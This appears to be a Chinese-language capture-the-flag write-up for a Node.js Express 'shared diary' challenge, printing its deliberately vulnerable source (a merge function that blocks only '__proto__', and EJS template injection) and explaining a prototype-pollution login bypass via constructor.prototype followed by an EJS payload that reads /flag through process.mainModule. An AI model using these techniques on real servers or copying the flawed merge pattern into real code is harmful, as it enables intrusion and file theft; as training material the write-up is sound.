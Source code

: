 ![](<./img/Pasted image 20230205115018.png>)

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const session = require('express-session');
const randomize = require('randomatic');
const ejs = require('ejs');
const path = require('path');
const app = express();

function merge(target, source) {
    for (let key in source) {
        // Prevent prototype pollution
        if (key === '__proto__') {
            throw new Error("Detected Prototype Pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

app
    .use(bodyParser.urlencoded({extended: true}))
    .use(bodyParser.json());
app.set('views', path.join(__dirname, "./views"));
app.set('view engine', 'ejs');
app.use(session({
    name: 'session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false
}))

app.all("/login", (req, res) => {
    if (req.method == 'POST') {
        // save userinfo to session
        let data = {};
        try {
            merge(data, req.body)
        } catch (e) {
            return res.render("login", {message: "Don't pollution my shared diary!"})
        }
        req.session.data = data

        // check password
        let user = {};
        user.password = req.body.password;
        if (user.password=== "testpassword") {
            user.role = 'admin'
        }
        if (user.role === 'admin') {
            req.session.role = 'admin'
            return res.redirect('/')
        }else {
            return res.render("login", {message: "Login as admin or don't touch my shared diary!"})
        } 
    }
    res.render('login', {message: ""});
});

app.all('/', (req, res) => {
    if (!req.session.data || !req.session.data.username || req.session.role !== 'admin') {
        return res.redirect("/login")
    }
    if (req.method == 'POST') {
        let diary = ejs.render(`<div>${req.body.diary}</div>`)
        req.session.diary = diary
        return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
    }
    return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
})


app.listen(8888, '0.0.0.0');
```

~~像啊，很像啊~~

存在原型链污染，虽然过滤了`__proto__`，但依然可以通过`constructor.prototype`来访问到

密码不正确时，并未为`user`设置`role`属性，因此可以通过原型添加`role`属性为`admin`来绕过登录

对于`/`路由，存在`ejs`的`SSTI`，常规注入即可

![](<./img/Pasted image 20230205122042.png>)

```
/
```

![](<./img/Pasted image 20230205124319.png>)

```javascript
<%= process.mainModule.require("fs").readFileSync('/flag'); %>
```

![](<./img/Pasted image 20230205124914.png>)

#Web #nodejs #原型污染 #ejs #SSTI #RCE 